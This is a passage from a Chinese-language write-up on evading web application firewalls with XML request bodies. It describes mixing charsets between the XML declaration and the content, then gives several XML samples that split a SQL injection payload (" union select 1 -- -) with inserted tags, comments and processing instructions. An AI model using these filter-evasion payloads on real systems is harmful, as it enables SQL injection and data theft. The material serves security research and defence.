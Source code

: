 

## 1.3 Double Charset

由于magic charset与declare charset的逻辑是独立的，我们可以分别对XML头标签与XML内容使用不同的编码。

# 2. String Split

## 2.1 LABEL INSERT

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<test att="foo">" union select 1 -- -</test>
</root>
```
添加额外标签进行字符串分割：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<test att="foo">" uni<foo>foo1 foo2</foo><foofoo/>on select 1 -- -</test>
</root>
```

使用注释进行字符串分割：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<test att="foo">" uni<!--foo-->on select 1 -- -</test>
</root>
```

使用PI标签进行字符串分割：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<test att="foo">" uni<?foo1 foo2 ?>on select 1 -- -</test>
</root>
```

jdk1.8.0_191\src.zip!\com\sun\org\apache\xerces\internal\impl\XMLDocumentScannerImpl.java：
